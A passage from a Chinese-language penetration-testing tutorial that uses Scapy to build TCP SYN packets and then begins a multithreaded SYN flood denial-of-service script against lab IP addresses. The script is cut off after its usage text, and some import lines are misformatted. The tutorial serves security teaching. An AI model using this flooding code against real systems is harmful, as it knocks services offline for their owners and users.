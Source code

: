 可以通过使用斜杠分隔变量来堆叠 IP 和 TCP 层。 然后可以将这些层赋给表示整个请求的新变量。 然后可以调用`display()`函数来查看请求的配置。 一旦建立了请求，就可以将其传递给发送和接收函数，以便我们可以分析响应：

```
>>> request = (i/t) 
>>> request.display() 
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= tcp
  chksum= None
  src= 172.16.36.224
  dst= 172.16.36.135
  \options\ 
###[ TCP ]###
     sport= ftp_data
     dport= http
     seq= 0
     ack= 0
     dataofs= None
     reserved= 0
     flags= S
     window= 8192
     chksum= None
     urgptr= 0
     options= {}
```

可以在不独立地构建和堆叠每个层的情况下执行相同的请求。 相反，可以通过直接调用函数并向其传递适当的参数来使用单行命令：

```
>>> sr1(IP(dst="172.16.36.135")/TCP()) 
Begin emission: 
......................................................
Finished to send 1 packets. 
..* 
Received 57 packets, got 1 answers, remaining 0 packets 
<IP  version=4L ihl=5L tos=0x0 len=44 id=0 flags=DF frag=0L ttl=64 proto=tcp chksum=0x9944 src=172.16.36.135 dst=172.16.36.224 options=[] |<TCP  sport=http dport=ftp_data seq=2078775635 ack=1 dataofs=6L reserved=0L flags=SA window=5840 chksum=0xca1e urgptr=0 options=[('MSS', 1460)] |<Padding  load='\x00\x00' |>>> 
```

SYN 泛洪的效率取决于在给定时间段内可以生成的 SYN 请求的数量。 为了提高这个攻击序列的效率，我写了一个多线程脚本，可以执行可由攻击系统处理的，尽可能多的 SYN 数据包注入的并发进程：

```
#!/usr/bin/python

from scapy.all 
import * from time 
import sleep 
import thread 
import random 
import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:   
    print "Usage - ./syn_flood.py [Target-IP] [Port Number] [Threads]"   
    print "Example - ./sock_stress.py 10.0.0.5 80 20"   
    print "Example will perform a 20x multi-threaded SYN flood attack"   
    print "against the HTTP (port 80) service on 10.0.0.5"   
```